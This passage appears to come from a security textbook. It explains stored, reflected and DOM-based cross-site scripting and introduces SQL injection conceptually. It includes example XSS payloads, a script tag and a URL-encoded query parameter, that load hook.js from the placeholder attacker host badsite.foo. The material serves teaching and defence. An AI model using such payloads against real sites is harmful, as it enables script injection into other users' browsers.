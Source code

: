 An attack where the malicious input comes from a crafted link is a reflected or nonpersistent XSS attack. A stored/persistent XSS attack aims to insert code into a back-end database or content management system used by the trusted site. For example, the attacker may submit a post to a bulletin board with a malicious script embedded in the message. When other users view the message, the malicious script is executed. For example, with no input sanitization, a threat actor could type the following into a new post text field:

Check out this amazing \<a href="https://trusted.foo">website\</a>\<script src="https://badsite.foo/hook.js">\</script>.

Users viewing the post will have the malicious script hook.js execute in their browser.

A third type of XSS attack exploits vulnerabilities in client-side scripts. Such scripts often use the Document Object Model (DOM) to modify the content and layout of a web page. For example, the "document.write" method enables a page to take some user input and modify the page accordingly. An exploit against a client-side script could work as follows:

1.  The attacker identifies an input validation vulnerability in the trusted site. For example, a message board might take the user's name from an input text box and show it in a header.

    https://trusted.foo/messages?user=james
2.  The attacker crafts a URL to modify the parameters of a script that the server will return, such as:

    https://trusted.foo/messages?user=James%3Cscript%20src%3D%22https%3A%2F%2Fbadsite.foo%2Fhook.js%22%3E%3C%2Fscript%3E
3.  The server returns a page with the legitimate DOM script embedded, but containing the parameter:

    James\<script src="https://badsite.foo/hook.js">\</script>
4. The browser renders the page using the DOM script, adding the text "James" to the header, but also executing the hook.js script at the same time.

## STRUCTURED QUERY LANGUAGE INJECTION ATTACKS

Attacks such as session replay, CSRF, and DOM-based XSS are client-side attacks. This means that they execute arbitrary code on the browser. A server-side attack causes the server to do some processing or run a script or query in a way that is not authorized by the application design. Most server-side attacks depend on some kind of injection attack.

Where an overflow attack works against the way a process performs memory management, an injection attack exploits some unsecure way in which the application processes requests and queries. For example, an application might allow a user to view his or her profile with a database query that should return the single record for that one user's profile. An application vulnerable to an injection attack might allow a threat actor to return the records for all users, or to change fields in the record when they are only supposed to be able to read them.

A web application is likely to use Structured Query Language (SQL) to read and write information from a database. The main database operations are performed by SQL statements for selecting data (SELECT), inserting data (INSERT), deleting data (DELETE), and updating data (UPDATE). In a SQL injection attack, the threat actor modifies one or more of these four basic functions by adding code to some input accepted by the app, causing it to execute the attacker's own set of SQL queries or parameters. If successful, this could allow the attacker to extract or insert information into the database or execute arbitrary code on the remote system using the same privileges as the database application ([owasp.org/www-community/attacks/SQL\_Injection](https://owasp.org/www-community/attacks/SQL_Injection)).

